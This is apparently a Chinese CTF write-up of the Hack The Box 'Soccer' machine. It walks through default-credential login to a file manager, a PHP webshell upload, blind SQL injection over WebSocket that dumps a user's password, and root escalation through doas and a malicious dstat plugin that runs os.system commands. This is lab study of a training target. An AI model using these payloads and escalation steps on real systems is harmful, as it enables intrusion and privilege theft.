

*Difficulty: Easy*

---

## 扫描

开始尝试用自己写的[这个脚本](./HTB-Shoppy.md#htb_easy_firstscaning)进行首先的基础扫描，子域扫完之后枚举目录。

- 活动端口：22，80，9091
- 没发现子域


## 漏洞分析

### 80端口

`http://soccer.htb/` 似乎就是个静态页面。

- 无robots  
- 网页源码无发现 
- 目录枚举：/tiny

#### 研究网页功能
`http://soccer.htb/tiny` 是个登陆界面。

简单试了下SQLi似乎不行。也姑且不太想直接暴破。猜测应该是弱密码或者有exploit。  
*但是当时没找到哪里有写版本，后来发现网页源码就有写，但是因为太长了没看到……只用半屏的锅（（*  
footer有个链接，似乎是这个应用的源码。觉得使用默认密码的可能性较大，直接去翻文档  

- 找到默认密码  

    > Default username/password: admin/admin@123 and user/12345.

- 顺便留个心眼：
    - 文档要求后端PHP要5.5.0以上
    - 以及介绍了docker部署——所以可能get shell之后进入的是容器里 


尝试默认账户密码成功登入。  
里面就是这个网站的源码资源。`tiny` 文件夹里有个 `uploads` 文件夹，估计能在这里上传webshell——当然，用php的。


## foothold

kali自带php反弹shell（`/usr/share/webshells/php/`），网上也能简单搜到。

开监听，在 `uploads` 文件夹上传webshell，触发后成功进入机器。是 `www-data` 用户：  
*我把kali自带的那个webshell里的 `sh -i` 改成了 `bash -i`*  
```bash
www-data@soccer:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

由于没这个账户的密码（无法看`sudo -l`），所以我就会先尝试枚举SUID：
```bash
$ find / -perm -4000 2>/dev/null
/usr/local/bin/doas
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/bin/umount
/usr/bin/fusermount
/usr/bin/mount
/usr/bin/su
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/at
```

由于对[GTFOBins](https://gtfobins.github.io/)里的 `at` 有印象所以先试了下这个，不过会报错。  
但是再仔细看一下其实这个SUID不是root权限，也就放弃了这条路。
> -rwsr-sr-x 1 daemon daemon 55560 Nov 12  2018 /usr/bin/at

另外挑了几个可疑的在[GTFOBins](https://gtfobins.github.io/)里搜了搜，似乎都不能提权。本来觉得easy机器到这种程度就差不多有了……

想起来上传的webshell一直都有被定时删除，于是又看了眼cron。不过由于都没有写入权限，所以也放弃了。

那么枚举一下所有有写入权限的。吸取上面的教训，这次显示一下权限：
```bash
find / -perm -222 2>/dev/null -type f -exec ls -l {} \;
```

输出太多了，限定为root看看：
```bash
find / -user root -perm -222 2>/dev/null -type f -exec ls -l {} \;
```

不过看了眼各行开头的目录名似乎都不像能利用的……

---

*陷入长时间迷茫……*  
*这时候光想着提权，进来之后根本还没拿flag——已经完全忘记自己的目的是什么了……应该拿user的flag而不是想着拿root权限。home目录有另一个用户：player，虽然也没有找他的其密码。*  
*这时候看到Forum有个兄弟提到了nginx配置……*

---


## 新发现：另一个网页

根据Forum的线索，在机子上找了一下`nginx.conf`，注意这一块：  
```bash
##
# Virtual Host Configs
##

include /etc/nginx/conf.d/*.conf;
include /etc/nginx/sites-enabled/*;
```

会发现有两个网页，`default`就是我们最开始进入的那个页面，另一个就是`soc-player.htb`：
```bash
www-data@soccer:/$ ls /etc/nginx/sites-enabled/
default
soc-player.htb


www-data@soccer:/$ cat /etc/nginx/sites-enabled/soc-player.htb
server {
        listen 80;
        listen [::]:80;

        server_name soc-player.soccer.htb;

        root /root/app/views;

        location / {
                proxy_pass http://localhost:3000;
                proxy_http_version 1.1;
                proxy_set_header Upgrade $http_upgrade;
                proxy_set_header Connection 'upgrade';
                proxy_set_header Host $host;
                proxy_cache_bypass $http_upgrade;
        }

}
```

*最开始的扫描也有扫过子域/虚拟主机，不过当时没有任何输出。（并没有这么刁钻的字典，或许可以用 `CeWL工具` 基于之前的网站生成个字典？）*  

将其加入hosts后访问。同样是一个静态网站。内容好像和之前那个网站一样。不过有登陆、注册功能。  

- 无robots  
- 网页源码无发现（暂时）
- 目录枚举：除了一些能看到的登陆、注册，还有一些静态资源。没其他特殊项目

#### 研究网页功能

登陆界面尝试了一下SQLi，似乎不太行。随便注册一个号试试竟然能登陆。

登陆后的页面（`/check`）似乎仅仅用来输入票号以确认是否存在。

尝试SQLi，是数字型注入，似乎由于加减号被用来运算所以注释符是井号。  
其实对SQLi没有了解太深……  
姑且尝试出这是3列，但是因为网页只返回票号是否存在这个结果，没有其他回显位置，所以应该无法从这个网页获得什么信息。

```
81574 and 1=1 order  by 3

and 1=1 UniOn Select 1,2,3 fRoM information_schema.schemata

UniOn Select 1,2,schema_name fRoM information_schema.schemata
```

然后乱逛乱点了一阵子

- 注意到我在 `/check` 页面发送的请求并没有显示在burp的 `HTTP history` 里
- 用检查网页元素的方式（Ctrl+Shift+C）点击 `/check` 页面的输入框看看，发现这里有个 `event`，点了几下进入到Debugger界面

    

后来发现这就是网页源码的script部分:
```html
<script>
    var ws = new WebSocket("ws://soc-player.soccer.htb:9091");
    window.onload = function () {
    
    var btn = document.getElementById('btn');
    var input = document.getElementById('id');
    
    ws.onopen = function (e) {
        console.log('connected to the server')
    }
    input.addEventListener('keypress', (e) => {
        keyOne(e)
    });
    
    function keyOne(e) {
        e.stopPropagation();
        if (e.keyCode === 13) {
            e.preventDefault();
            sendText();
        }
    }
    
    function sendText() {
        var msg = input.value;
        if (msg.length > 0) {
            ws.send(JSON.stringify({
                "id": msg
            }))
        }
        else append("????????")
    }
    }
    
    ws.onmessage = function (e) {
    append(e.data)
    }
    
    function append(msg) {
    let p = document.querySelector("p");
    // let randomColor = '#' + Math.floor(Math.random() * 16777215).toString(16);
    // p.style.color = randomColor;
    p.textContent = msg
    }
</script>
```

原来最开始扫描出来的9091端口是这里用的啊，以及这里的数据传输是用 `WebSocket`，以前也只是大概了解了一下，要实际上手分析还是第一次。  


## 横向移动

### PoC

`websocket sqli` 谷歌一波，发现2个极其有参考意义的网站：  
> <https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html>  
> <https://www.youtube.com/watch?v=WTDqlunipXE>

第一个网站是PoC文章，一开始光看文章没太明白，然后发现第二个那个视频算是手把手教了。  
一开始跳着看，看到里面用burp来Repeater我都惊了，我根本没抓到history啊。从头缕了一遍，原来只要开启拦截就能抓到WebSocket的请求……没这习惯，burp一直都是用来看history的……  
以及后来发现原来有个 `WebSockets history` 就在 `HTTP history` 旁边……

### 盲注暴库

接下来就简单了，结合这两个网站，自己也弄一波ws的盲注。成功暴出有用的信息：
```bash
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys


current user: 'player@localhost'
Database: soccer_db
[1 table]
+----------+
| accounts |
+----------+
Database: soccer_db
Table: accounts
[1 entry]
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+
```


## get user flag

使用上述账户信息，成功用 `player` 登陆SSH。获得user flag：
```bash
-bash-5.0$ id
uid=1001(player) gid=1001(player) groups=1001(player)
-bash-5.0$ ls
user.txt
-bash-5.0$ cat user.txt
```


## 提权

惯例先看一眼 `sudo -l`，显示没有sudo执行。然后看看SUID：
```bash
-bash-5.0$ sudo -l
[sudo] password for player: 
Sorry, user player may not run sudo on localhost.
-bash-5.0$ find / -perm -4000 2>/dev/null
/usr/local/bin/doas
……
```

其实提权利用的就是这个 `doas`，不过我最开始错过了。还花了一些时间去扫描，如用[LinEnum](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)，也并未发现什么有用的信息。

不过其实就算一开始不知道这个doas，只要谷歌一下linux提权什么的，也能找到一些文章会提到这个命令的提权。想想也确实算是基本技能了。  
> <https://book.hacktricks.xyz/linux-hardening/privilege-escalation#doas>  
> <https://0x1.gitlab.io/exploit/Linux-Privilege-Escalation/#doas>  
>> There are some alternatives to the sudo binary such as doas for OpenBSD, remember to check its configuration at /etc/doas.conf

看了眼没有 `/etc/doas.conf`，不过搜到在另一个地方：  
```bash
player@soccer:~$ find / -name doas.conf 2>/dev/null
/usr/local/etc/doas.conf
player@soccer:~$ cat /usr/local/etc/doas.conf 
permit nopass player as root cmd /usr/bin/dstat
```

### PoC (CVE-2009-3894)

即：可以无密码以root权限执行 `/usr/bin/dstat`，那么再搜一下 `dstat` 是否有什么利用。  
> 漏洞披露：<https://www.rapid7.com/db/vulnerabilities/gentoo-linux-cve-2009-3894/>  
> 漏洞披露：<https://vulners.com/centos/CESA-2009:1619>  
> exp：<https://exploit-notes.hdks.org/exploit/sudo-privilege-escalation/#dstat>

```bash
player@soccer:~$ find / -type d -name dstat -exec ls -ld {} \; 2>/dev/null
drwxr-xr-x 2 root root 4096 Nov 17 09:09 /usr/share/doc/dstat
drwxr-xr-x 3 root root 4096 Nov 17 09:09 /usr/share/dstat
drwxrwx--- 2 root player 4096 Jan  8 09:15 /usr/local/share/dstat
```

`/usr/local/share/dstat` 有写入权限，那么去这个目录进行后续exploit：  
```bash
player@soccer:~$ cd /usr/local/share/dstat

player@soccer:/usr/local/share/dstat$ echo -e "import os\nos.system('chmod +s /usr/bin/bash')" > dstat_exploit.py
player@soccer:/usr/local/share/dstat$ cat dstat_exploit.py 
import os
os.system('chmod +s /usr/bin/bash')
player@soccer:/usr/local/share/dstat$ dstat --list
internal:
        aio,cpu,cpu-adv,cpu-use,cpu24,disk,disk24,disk24-old,epoch,fs,int,int24,io,ipc,load,lock,
        mem,mem-adv,net,page,page24,proc,raw,socket,swap,swap-old,sys,tcp,time,udp,unix,vm,vm-adv,
        zones
/usr/share/dstat:
        battery,battery-remain,condor-queue,cpufreq,dbus,disk-avgqu,disk-avgrq,disk-svctm,disk-tps,
        disk-util,disk-wait,dstat,dstat-cpu,dstat-ctxt,dstat-mem,fan,freespace,fuse,gpfs,gpfs-ops,
        helloworld,ib,innodb-buffer,innodb-io,innodb-ops,jvm-full,jvm-vm,lustre,md-status,memcache-hits,
        mongodb-conn,mongodb-mem,mongodb-opcount,mongodb-queue,mongodb-stats,mysql-io,mysql-keys,
        mysql5-cmds,mysql5-conn,mysql5-innodb,mysql5-innodb-basic,mysql5-innodb-extra,mysql5-io,mysql5-keys,
        net-packets,nfs3,nfs3-ops,nfsd3,nfsd3-ops,nfsd4-ops,nfsstat4,ntp,postfix,power,proc-count,
        qmail,redis,rpc,rpcd,sendmail,snmp-cpu,snmp-load,snmp-mem,snmp-net,snmp-net-err,snmp-sys,
        snooze,squid,test,thermal,top-bio,top-bio-adv,top-childwait,top-cpu,top-cpu-adv,top-cputime,
        top-cputime-avg,top-int,top-io,top-io-adv,top-latency,top-latency-avg,top-mem,top-oom,utmp,
        vm-cpu,vm-mem,vm-mem-adv,vmk-hba,vmk-int,vmk-nic,vz-cpu,vz-io,vz-ubc,wifi,zfs-arc,zfs-l2arc,
        zfs-zil
/usr/local/share/dstat:
        exploit

player@soccer:/usr/local/share/dstat$ /usr/bin/dstat --exploit
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
chmod: changing permissions of '/usr/bin/bash': Operation not permitted
Module dstat_exploit failed to load. (name 'dstat_plugin' is not defined)
None of the stats you selected are available.
```

exploit报错。正常，想想我们也没有root权限去设置bash的SUID。确认一下想法：  
```bash
player@soccer:/usr/local/share/dstat$ echo -e "import os\nos.system('id')" > dstat_exploit.py
player@soccer:/usr/local/share/dstat$ dstat --exploit
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
uid=1001(player) gid=1001(player) groups=1001(player)
Module dstat_exploit failed to load. (name 'dstat_plugin' is not defined)
None of the stats you selected are available.
```

**至此，我突然意识到自己又开始傻了，既然doas类似sudo，那么我执行命令时也应该用和sudo一样的格式啊……**  
**且doas我们之前确认过有设置SUID，以及其权限是root：**
```bash
player@soccer:/usr/local/share/dstat$ ls -l /usr/local/bin/doas
-rwsr-xr-x 1 root root 42224 Nov 17 09:09 /usr/local/bin/doas
```  

所以exploit命令应该是这样：
```bash
player@soccer:/usr/local/share/dstat$ echo -e "import os\nos.system('id')" > dstat_exploit.py
player@soccer:/usr/local/share/dstat$ doas /usr/bin/dstat --exploit
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
uid=0(root) gid=0(root) groups=0(root)
Module dstat_exploit failed to load. (name 'dstat_plugin' is not defined)
None of the stats you selected are available.
```

成功获取root shell。


## get root flag

不过秉持着尽量少地修改系统的原则。想想按照exp文章里直接给bash设置SUID的做法不太妥当，所以我选择直接拿flag：
```bash
echo -e "import os\nos.system('cat /root/root.txt')" > dstat_exploit.py
doas /usr/bin/dstat --exploit
```

---

## 后记

第一次玩了一把新鲜出炉放在Release Area的靶机~才知道原来新靶机是用另一个ovpn，并且一人一靶机。  
看着之前一部Windows的Support要退役，这台开始进入倒数，算算正好是周末放假时间。于是就想着我也要尝个新鲜~两天打下来十分开心。

总体来说感觉比之前打的那几台Esay难一些，看Forum过了的人也说不像是Esay的靶机。不过学到了很多，十分开心。  
获取初始访问有点绕，以及系统有各种清理还挺烦的。  

后来偶然在一个网站看到[别人的WP](https://systemweakness.com/soccer-hack-the-box-f02665c71abe)，关于如何找到另一个网页（soc-player.htb）有个新思路：查看hosts文件。  
惊了，连忙试了下看看是不是真的：
```bash
bash-5.0$ cat /etc/hosts
cat /etc/hosts
127.0.0.1       localhost       soccer  soccer.htb      soc-player.soccer.htb

127.0.1.1       ubuntu-focal    ubuntu-focal
```

学到了学到了啊，看来以后hosts文件也要列入信息收集的范围里。